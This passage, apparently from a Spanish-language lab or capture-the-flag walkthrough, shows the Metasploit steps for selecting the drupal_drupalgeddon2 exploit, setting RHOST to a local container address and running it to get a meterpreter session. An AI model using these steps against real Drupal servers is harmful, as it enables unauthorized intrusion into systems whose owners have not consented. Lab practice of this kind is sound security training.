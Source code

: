 Seleccionamos el exploit que nos interese, en este caso vamos a usar el primero
```
use 0 
#ó
use exploit/unix/webapp/drupal_drupalgeddon2 
```
![](img/Pasted%20image%2020241225215014.png#center)




Vemos las opciones
```
show options
```
![](img/Pasted%20image%2020241225215050.png)
Si funciona el exploit y entra en la máquina nos dará un `meterpreter`.



Modificamos las opciones que necesitemos
```
set RHOST 172.17.0.2
```
![](img/Pasted%20image%2020241225215226.png#center)


Ejecutamos el exploit
```
exploit
```